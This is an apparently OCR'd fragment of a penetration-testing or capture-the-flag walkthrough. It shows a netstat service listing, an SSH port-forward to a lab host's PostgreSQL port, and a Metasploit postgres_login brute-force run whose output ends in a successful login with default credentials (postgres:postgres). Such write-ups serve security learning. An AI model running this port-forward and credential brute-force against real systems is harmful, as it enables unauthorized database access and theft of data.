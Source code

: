 tcp6       0      0 :::80                   :::*                    LISTEN      1239/apache2

tcp6       0      0 :::22                   :::*                    LISTEN      968/sshd

tcp6       0      0 ::1:5432                :::*                    LISTEN      1051/postgres

udp        0      0 0.0.0.0:68              0.0.0.0:*                           765/dhclient

udp        0      0 0.0.0.0:50169           0.0.0.0:*                           765/dhclient

udp6       0      0 :::1818                 :::*                                765/dhclient

Port forwarding postgres

ssh webmin@192.168.1.13 -L 5432:localhost:5432

bruteforce

msfconsole -q

msf6 > use auxiliary/scanner/postgres/postgres_login

msf6 auxiliary(scanner/postgres/postgres_login) > set RHOSTS 127.0.0.1

RHOSTS => 127.0.0.1

msf6 auxiliary(scanner/postgres/postgres_login) > run

[!] No active DB -- Credential data will not be saved!

[-] 127.0.0.1:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)

[+] 127.0.0.1:5432 - Login Successful: postgres:postgres@template1

[-] 127.0.0.1:5432 - LOGIN FAILED: scott:@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: scott:tiger@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: scott:postgres@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: scott:password@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: scott:admin@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: admin:@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: admin:tiger@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: admin:postgres@template1 (Incorrect: Invalid username or password)
